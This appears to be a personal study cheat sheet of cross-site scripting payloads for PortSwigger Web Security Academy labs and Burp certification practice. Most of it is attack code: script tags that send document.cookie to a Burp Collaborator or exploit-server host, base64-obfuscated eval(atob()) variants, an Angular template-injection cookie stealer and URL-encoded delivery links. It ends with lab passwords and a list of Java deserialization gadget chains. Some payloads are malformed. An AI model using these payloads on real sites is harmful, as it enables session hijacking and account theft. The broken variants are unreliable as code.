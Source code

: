 


1. Steal cookie from any user

```html
<script>
fetch(‘https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net’, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>

```

2. Steal cookie exploit server


```html
<script>
eval(atob(fetch(`https://exploit-0ad000380440d0c28074023d010f00c1.exploit-server.net/exploit`, {method: 'POST',mode: 'no-cors',body:document.cookie});))
</script>

```



<script>
eval(atob(ZmV0Y2goYGh0dHBzOi8vZXhwbG9pdC0wYWQwMDAzODA0NDBkMGMyODA3NDAyM2QwMTBmMDBjMS5leHBsb2l0LXNlcnZlci5uZXQvZXhwbG9pdGAsIHttZXRob2Q6ICdQT1NUJyxtb2RlOiAnbm8tY29ycycsYm9keTpkb2N1bWVudC5jb29raWV9KTs=
))
</script>

ZmV0Y2goYGh0dHBzOi8vZXhwbG9pdC0wYWQwMDAzODA0NDBkMGMyODA3NDAyM2QwMTBmMDBjMS5leHBsb2l0LXNlcnZlci5uZXQvZXhwbG9pdGAsIHttZXRob2Q6ICdQT1NUJyxtb2RlOiAnbm8tY29ycycsYm9keTpkb2N1bWVudC5jb29raWV9KTs=





3. Angular XSS cookie stealer

```html
{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}

```

4. Misc payloads
	- https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study 



https://0a4a000a04b7d03c805f03c700b000a3.web-security-academy.net/?SearchTerm="-alert(1)-"

<script>
	location = https://0a4a000a04b7d03c805f03c700b000a3.web-security-academy.net/?SearchTerm=%22--%22";
</script>


<script>
location='https://<CHANGE_HERE>.web-security-academy.net/?find=%22%2D%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2F<CHANGE_HERE>%252eweb%2Dsecurity%2Dacademy%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29%2D%22';
</script>


fetch(`https://exploit-0ad000380440d0c28074023d010f00c1.exploit-server.net/exploit/?cookie=` + window["document"]["cookie"])

ZmV0Y2goYGh0dHBzOi8vZXhwbG9pdC0wYWQwMDAzODA0NDBkMGMyODA3NDAyM2QwMTBmMDBjMS5leHBsb2l0LXNlcnZlci5uZXQvZXhwbG9pdC8/Y29va2llPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ==

"-eval(atob("ZmV0Y2goYGh0dHBzOi8vZXhwbG9pdC0wYWQwMDAzODA0NDBkMGMyODA3NDAyM2QwMTBmMDBjMS5leHBsb2l0LXNlcnZlci5uZXQvZXhwbG9pdC8/YCArIHdpbmRvd1siZG9jdW1lbnQiXVsiY29va2llIl0p"))-"

%22%2Deval%28atob%28%22ZmV0Y2goYGh0dHBzOi8vZXhwbG9pdC0wYWQwMDAzODA0NDBkMGMyODA3NDAyM2QwMTBmMDBjMS5leHBsb2l0LXNlcnZlci5uZXQvZXhwbG9pdC8%2FYCArIHdpbmRvd1siZG9jdW1lbnQiXVsiY29va2llIl0p%22%29%29%2D%22

<script>
location = "https://0a4a000a04b7d03c805f03c700b000a3.web-security-academy.net/?SearchTerm=%22%2Deval%28atob%28%22ZmV0Y2goYGh0dHBzOi8vZXhwbG9pdC0wYWQwMDAzODA0NDBkMGMyODA3NDAyM2QwMTBmMDBjMS5leHBsb2l0LXNlcnZlci5uZXQvZXhwbG9pdC8%2FYCArIHdpbmRvd1siZG9jdW1lbnQiXVsiY29va2llIl0p%22%29%29%2D%22"
</script>

Carlos password -> 93c2516debbc64a4
Administrador -> b235d711d5858825



C3P0 [com.mchange:c3p0:0.9.5.2, com.mchange:mchange-commons-java:0.2.11]
		CommonsBeanutils1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
		CommonsCollections1 [commons-collections:commons-collections:3.1]
		CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
		CommonsCollections3 [commons-collections:commons-collections:3.1]
		CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
		CommonsCollections5 [commons-collections:commons-collections:3.1]
		CommonsCollections6 [commons-collections:commons-collections:3.1]
		FileUpload1 [commons-fileupload:commons-fileupload:1.3.1, commons-io:commons-io:2.4]
		Groovy1 [org.codehaus.groovy:groovy:2.3.9]
		Hibernate1 []